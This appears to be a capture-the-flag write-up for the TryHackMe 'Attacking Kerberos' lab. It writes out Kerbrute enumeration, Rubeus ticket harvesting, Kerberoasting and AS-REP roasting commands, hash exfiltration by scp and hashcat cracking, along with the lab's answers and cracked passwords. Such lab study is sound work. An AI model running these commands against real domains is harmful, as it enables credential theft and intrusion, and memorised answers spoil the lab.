 # Attacking Kerberos

{% embed url="https://tryhackme.com/room/attackingkerberos" %}
https://tryhackme.com/room/attackingkerberos
{% endembed %}

## Task 1 Introduction

Attack Privilege Requirements

* Kerbrute Enumeration - No domain access required&#x20;
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required&#x20;
* Silver Ticket - Service hash required&#x20;
* Skeleton Key - Full domain compromise (domain admin) required

#### What does TGT stand for?

{% hint style="success" %}
`Ticket Granting Ticket`
{% endhint %}

#### What does SPN stand for?

{% hint style="success" %}
Service Principle Name
{% endhint %}

#### What does PAC stand for?

{% hint style="success" %}
`Privilege Attribute Certificate`
{% endhint %}

#### What two services make up the KDC?

{% hint style="success" %}
`AS, TGS`
{% endhint %}

## Task 2 Enumeration w/ Kerbrute

```bash
echo '10.10.94.12  CONTROLLER.local' | sudo tee -a /etc/hosts
```

#### How many total users do we enumerate?

```bash
wget https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-11-00.png>)

{% hint style="success" %}
`10`
{% endhint %}

#### What is the SQL service account name?

{% hint style="success" %}
`sqlservice`
{% endhint %}

#### What is the second "machine" account name?

{% hint style="success" %}
`machine2`
{% endhint %}

#### What is the third "user" account name?

{% hint style="success" %}
`user3`
{% endhint %}

## Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus

#### Which domain admin do we get a ticket for when harvesting tickets?

```bash
ssh Administrator@controller.local
cd Downloads
Rubeus.exe harvest /interval:30
```

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-21-58.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-22-33.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-22-47.png>)

{% hint style="success" %}
`Administrator`
{% endhint %}

#### Which domain controller do we get a ticket for when harvesting tickets?

{% hint style="success" %}
`CONTROLLER-1`
{% endhint %}

## Task 4 Kerberoasting w/ Rubeus & Impacket

```bash
Rubeus.exe kerberoast /outfile:hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-32-25.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-27 22-32-51.png>)

```bash
scp 'Administrator@controller.local:/C:/Users/Administrator/Downloads/hash.txt' .
wget https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt
hashcat -a 0 -m 13100 hash.txt Pass.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 06-18-49.png>)

#### What is the HTTPService Password?



{% hint style="success" %}
`Summer2020`
{% endhint %}

#### What is the SQLService Password?

{% hint style="success" %}
`MYPassword123#`
{% endhint %}

## Task 5 AS-REP Roasting w/ Rubeus

```bash
Rubeus.exe asreproast /format:hashcat /outfile:hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 06-29-28.png>)

```bash
scp 'Administrator@controller.local:/C:/Users/Administrator/Downloads/hash.txt' .
hashcat -a 0 -m 18200 hash.txt Pass.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-28 06-38-38.png>)

#### What hash type does AS-REP Roasting use?

{% embed url="https://hashcat.net/wiki/doku.php?id=example_hashes" %}

{% hint style="success" %}
`Kerberos 5, etype 23, AS-REP`
{% endhint %}

#### Which User is vulnerable to AS-REP Roasting?

{% hint style="success" %}
`User3`
{% endhint %}

#### What is the User's Password?

{% hint style="success" %}
`Password3`
{% endhint %}

#### Which Admin is vulnerable to AS-REP Roasting?

{% hint style="success" %}
`Admin2`
{% endhint %}

#### What is the Admin's Password?

{% hint style="success" %}
`P@$$W0rd2`
{% endhint %}

## Task 7 Golden/Silver Ticket Attacks w/ mimikatz

#### What is the SQLService NTLM Hash?

{% hint style="success" %}

{% endhint %}

#### What is the Administrator NTLM Hash?

{% hint style="success" %}

{% endhint %}
